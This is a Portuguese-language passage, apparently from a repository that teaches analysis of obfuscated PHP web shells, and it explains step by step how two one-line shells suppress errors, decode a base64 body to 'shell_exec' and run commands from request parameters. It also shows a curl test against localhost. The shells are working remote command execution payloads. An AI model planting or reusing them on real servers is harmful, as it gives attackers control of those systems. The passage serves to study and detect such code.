 1. Desativa erros
- `(error_reporting(0))` e `@`: Desativa a exibição de erros PHP.
2. Recupera parâmetro
- `$_ = $_REQUEST[0]`: Recupera o valor do parâmetro 0 da requisição HTTP.
3. Cria função maliciosa
- `$__ = @create_function('$_', base64_decode("ZWNobyhzaGVsbF9leGVjKCRfKSk7"))`:
    - Cria uma função anônima usando create_function.
    - A função recebe um parâmetro $_.
    - O corpo da função é decodificado da string base64.
4. Decodifica corpo da função
- `ZWNobyhzaGVsbF9leGVjKCRfKSk7` decodifica para:
    - `echo shell_exec($_)`;
5. Executa função maliciosa
- `($__($_))`: Executa a função criada com o parâmetro `$_`.
6. Encerra execução
- exit: Encerra a execução do script.

Funcionamento:
1. O atacante envia uma requisição HTTP com um parâmetro 0 contendo o comando a ser executado.
2. O código PHP cria uma função que executa o comando usando shell_exec.
3. A função é executada com o parâmetro recebido.

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- BASE64_DECODE <http://php.net/manual/pt_BR/function.base64-decode.php>
- CREATE_FUNCTION <http://php.net/manual/pt_BR/function.create-function.php>
- SHELL_EXEC <http://php.net/manual/pt_BR/function.shell-exec.php>
- EXIT <http://php.net/manual/pt_BR/function.exit.php>
- ERROR CONTROL @ <https://www.php.net/manual/pt_BR/language.operators.errorcontrol.php>
- $_REQUEST <https://www.php.net/manual/pt_BR/reserved.variables.request.php>

Variáveis: 

| BASE64                        | DECODE                  |
| ----------------------------- | ----------------------- |
| ZWNobyhzaGVsbF9leGVjKCRfKSk7= | `echo(shell_exec($_));` |

Execução: 
```bash
curl -v 'http://localhost/shell.php?0=id'
```

---

#### EXEMPLO 04

**Debugar o código:**

Code:
```php
(error_reporting(0).($_=@$_GET[1]).($_($_GET[2])).exit);
```

1. Desativa erros
- `(error_reporting(0))` e `@`: Desativa a exibição de erros PHP.
2. Recupera parâmetro
- `$_ = @$_GET[1]`: Recupera o valor do parâmetro 1 da requisição GET.
3. Executa comando
- `$_($_GET[2])`: Executa o comando armazenado em `$_` com o argumento passado em `$_GET[2]`.
4. Encerra execução
- `exit`: Encerra a execução do script.
